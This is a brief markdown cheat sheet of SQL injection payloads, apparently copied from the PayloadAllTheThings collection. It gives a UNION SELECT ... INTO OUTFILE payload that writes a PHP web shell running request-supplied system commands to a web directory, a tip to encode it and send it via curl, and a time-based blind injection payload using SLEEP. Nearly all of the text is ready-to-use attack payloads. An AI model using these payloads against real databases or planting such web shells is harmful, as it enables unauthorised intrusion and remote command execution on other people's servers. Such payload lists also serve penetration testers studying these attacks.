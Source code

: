 # SQL Injection

## Into outfile method (PayloadAllTheThings)
- SQL Injection write to file via shell
```
test' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

- If it does not work, encode all characters and send via `curl`.

## Blind
```
TEST' UNION SELECT SLEEP(10);-- -
```
